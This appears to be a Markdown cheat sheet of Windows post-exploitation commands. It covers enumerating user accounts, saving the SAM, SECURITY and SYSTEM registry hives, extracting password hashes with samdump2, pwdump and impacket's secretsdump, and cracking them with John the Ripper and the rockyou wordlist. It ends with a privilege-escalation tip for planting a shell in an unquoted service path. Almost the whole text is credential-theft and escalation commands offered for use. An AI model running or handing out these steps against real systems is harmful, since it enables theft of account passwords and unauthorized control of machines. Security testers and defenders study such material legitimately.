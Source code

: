 ## Useful commands
### net
#### To list the user accounts on system
```cmd
net user
```
#### To details of the user account on system
```cmd
net user Administrator
```
## Obtain Windows Passwords.
### Windows Credentials will be store in sam database
```cmd
dir \windows\system32\config
```
### Take the backup of the registry 
```cmd
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```
### Process these files to extract the hashes
Copy these files to Kali and run below commands to extract the hashes:
#### Method1: Using samdump2
```bash
samdump2 system.save sam.save
``` 
#### Method2: Using pwdump
```bash
pwdump system.save sam.save
``` 
#### Method3: Using secretsdump.py from python-impacket
```bash
python /usr/share/doc/python-impacket/examples/secretsdump.py -sam sam.save -system system.save LOCAL
``` 
### Extract the hashes to plain text
#### Use john ripper to extract the hashes
Copy the hashes obtained from above step into the file `myhash.txt` and run below command.
```bash
john myhash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=NT-old
```
## miscellaneous

## Priv Esc
### Abusing windows services
[Twitter](https://twitter.com/nullenc0de/status/1100236352766050305)
1) wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
2) Unquoted services that contain spaces = SYSTEM.

i.e. If binary is c:\Program Files\blah.exe. Place shell in c:\program.exe
